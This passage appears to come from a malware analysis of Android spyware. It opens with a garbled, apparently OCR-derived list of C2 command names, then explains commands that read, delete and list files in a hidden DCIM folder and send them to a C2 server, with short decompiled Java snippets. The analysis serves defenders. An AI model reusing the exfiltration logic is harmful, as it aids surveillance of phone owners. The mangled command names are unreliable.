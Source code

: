 ```
Yufsssp
getsssspo
DXCXIXM
f5iledowqqww
GExCaalsss7
SDgex8se
PHOCAs7
Gxextsxms
Msppossag
Getconstactx
Rinxgosa
Shetermix
bithsssp64
Deldatall8
M0xSSw9
```
Let's explore the potential for misuse by examining the malicious activities that can be carried out through the execution of some of these commands. We'll notice that in multiple instances, the C2 sends some supplementary data, such as the name of the file to be read/deleted, etc. along with the issued command.

### Unistxcr
Opens the screen of details about the application.

### dowsizetr
Calculates the size of the file `/sdcard/DCIM/.dat/<filename>` and sends it to the C2.
```java
FileInputStream fiswb = new FileInputStream(fx1sw);
MainService.socketOutputStream.writeBytes("@" + String.valueOf(fiswb.available()) + "SXXZEFV");
```
### DOWdeletx
Deletes the file `/sdcard/DCIM/.dat/<filename>`.

### Xr7aou
Reads data from the file `/sdcard/DCIM/.dat/<filename>` and sends it to the C2.

### Caspylistx
Creates a list of all non hidden files stored at `/sdcard/DCIM/.dat` and sends it to the server.
```java
for (File path : MainService.this.allFileNames) {
    if (!path.getName().startsWith(".") && path.exists()) {
        StringBuilder sb2 = new StringBuilder();
        MainService mainService = MainService.this;
        sb2.append(mainService.yyoo1);
        sb2.append(path.getName());
        sb2.append("|");
        mainService.yyoo1 = sb2.toString();
    }
}
```
